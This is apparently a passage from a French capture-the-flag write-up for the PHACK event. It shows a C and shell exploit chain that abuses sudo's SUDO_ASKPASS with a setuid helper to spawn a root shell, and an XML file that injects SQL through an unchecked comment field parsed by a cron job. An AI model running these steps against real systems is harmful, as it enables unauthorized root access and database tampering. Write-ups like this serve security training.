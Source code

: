 ```
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
        printf("Exploiting!\n");
        int fd = open("/proc/self/exe", O_RDONLY);
        struct stat st;
        fstat(fd, &st);
        if (st.st_uid != 0)
        {
                fchown(fd, 0, st.st_gid);
                fchmod(fd, S_ISUID|S_IRUSR|S_IWUSR|S_IXUSR|S_IXGRP);
        }
        else
        {
                setuid(0);
                execve("/bin/bash",NULL,NULL);
        }
return 0;
}
EOF
cc -w exec.c -o /tmp/pipe
./socat pty,link=/tmp/pty2,waitslave exec:"perl xpl.pl"&
sleep 0.5
export SUDO_ASKPASS=/tmp/pipe
sudo -k -S id < /tmp/pty2
/tmp/pipe
```

**PHACK{\*\_\*\*\*\*\_\*\*\*\*\_\*\*\*\*\_\*\*\*\_\*\*\_\*\_\*\*\*\*\_\*\*\*}**

## Graduated
Une tâche cron tourne et exécute un script python auquel on a pas accès. Cependant on devine qu'il va lire les fichiers XML qu'on place dans /home/teache/done pour intégrer les données dans une base de données.

Le champ COMMENT n'a pas de vérification (contrairement aux autres) et il est donc possible d'injecter une commande :

```
<?xml version="1.0" encoding="utf-8"?>

<evaluation>
  <student>
    <firstname>Maxime</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>' || sqlite_version(), 0, 0) -- </comment>
</evaluation>
```
